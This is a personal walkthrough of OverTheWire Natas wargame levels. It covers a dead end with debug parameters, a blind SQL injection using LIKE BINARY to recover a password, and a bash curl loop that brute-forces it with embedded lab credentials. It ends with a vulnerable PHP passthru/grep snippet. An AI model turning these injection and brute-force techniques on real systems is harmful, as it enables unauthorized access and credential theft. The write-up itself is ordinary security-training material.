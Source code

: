 ```php
```

Here a textboox just checks for the existance of the username by passing it to the query: `"SELECT * from users where username="<username"`

WRONG DIRECTION:

I focused too much on the later `if(array_key_exists("debug", $_GET))`. I found out you can't make a POST and GET simultaneously, but hitting submit makes a POST, so how do you pass variables into a GET? adding `?debug=1` to the URL didn't cut it. Instead opening dev tools and adding to the form tag `action="?debug=1`. I was hoping there would be something deeper. I also tried to do some php injection by doing something like `natas16" ; echo $ref; "` my hope with this is that the result would put the following code "SELECT * from users where username=natas16"; echo $ref;" So that the query would be sucessful, later on when res was defined (to be the results) it would show me the results. But all my attempts would just be sanitized out. I didn't figure out what to do on my own, but my friend looked up the solution hint, I caved and asked for it as well and heard it was a brute force SQL. 

If the password started with an A for example, then you could put the following:

`natas16" and password like "A%` --> `"SELECT * from users where username="natas16" and password like "A%"`. This would show the user exists. We actually see hinted that the password can be up to a 64 char alphanumeric (VARCHAR) string, so making a post request with a bash script works:

```bash
front=''
for n in {1..65}
do
        change=0
        echo "on round $n:"
        for l in {a..z} {A..Z} {0..9}
        do
                curl -s 'http://natas15.natas.labs.overthewire.org/index.php' \
  -H 'Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==' \
  --data-raw 'username=natas16%22++and+password+like+binary+%22'$front$l'%25' \ > output.txt
                  if grep -q "user exists." output.txt
                  then
                          front+=$l # Append new successful char to beginning
                          change=1
                          echo "found new char: $l -- $front"
                          break # break out of loop early
                  fi
        done
        # Break when no changes to password is found
        if [ $change == 0 ]; then echo "final -->> $front <<-- PIAZZA!"; break; fi
done
```

(it's LIKE BINARY instead of LIKE because it makes a stronger distinguishment between capital and lower case, but details...)


## :::: More Vulnerabilities ::::

php has a function passthru which just hands the code off to shell scripting, meaning bash commands can be potentially used. A relevant example is this "searching for a match in a dictionary". Here's the relevant php:
```php
if($key != "") {
   if(preg_match('/[;|&`\'"]/',$key)) {
     print "Input contains an illegal character!";
   } else {
     passthru("grep -i \"$key\" dictionary.txt");
   }
}
```
